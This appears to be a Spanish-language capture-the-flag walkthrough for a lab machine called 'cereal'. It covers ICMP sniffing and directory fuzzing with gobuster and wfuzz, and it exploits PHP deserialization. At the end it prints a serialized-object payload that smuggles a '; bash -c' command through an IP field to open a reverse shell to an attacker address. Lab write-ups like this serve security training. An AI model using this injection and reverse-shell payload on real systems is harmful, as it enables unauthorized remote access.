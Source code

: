 ![[Pasted image 20230727133223.png]]

```
sudo tcpdump -i ens33 icmp -n
```

![[Pasted image 20230727133239.png]]

==La maquina parece estar desplegando un servicio de ping icmp el cual tiene alcansé con muestra maquina  por lo cual se puede interceptar la petición que parece viajar serializada.

![[Pasted image 20230727134002.png]]

==Con nuevos dominios descubiertos., es importante realzar un barrido para encontrar mas vectores de ataque.
```
gobuster dir -u http://secure.cerea.ctf:44441/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20
```

![[Pasted image 20230727145311.png]]

```
wfuzz -c -hc=404 -t 200 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt http://secure.cereal.ctf:44441/back_en/FUZZ.php.bak
```

![[Pasted image 20230727145517.png]]

==Encontrando un dominio importante.

http://secure.cereal.ctf:44441/back_en/index.php.bak

![[Pasted image 20230801112158.png]]

==El código fuente de este servicio realiza un filtro de ip en congunto con una serializacion de la misma, es esto de lo que nos vamos a a probechar inyectandoole una shell hacia nuestra maquina.

---
### Escalamiento a usuario.

El código PHP que proporcionas parece tener la intención de serializar un objeto `pingTest` y luego imprimir el resultado codificado en URL. Sin embargo, hay un problema en la declaración de la propiedad `$ipAddress`. Parece que intentas ejecutar un comando de shell malicioso dentro de la propiedad, lo cual es una grave vulnerabilidad de seguridad.

El comando malicioso que se ha incluido en la propiedad `$ipAddress` es una forma de intentar obtener una shell inversa en el servidor objetivo. Es una práctica muy peligrosa e insegura, y no debería ser usada en ningún entorno, ya que podría ser utilizada para llevar a cabo ataques y acciones maliciosas.

```
<?php 
class pingTest { 
public $ipAddress = "; bash -c 'bash -i >& /dev/tcp/192.168.153.129/443 0>&1'"; 
public $isValid = True; 
public $output = ""; 
} 
echo urlencode(serialize(new pingTest)); 
?>
```
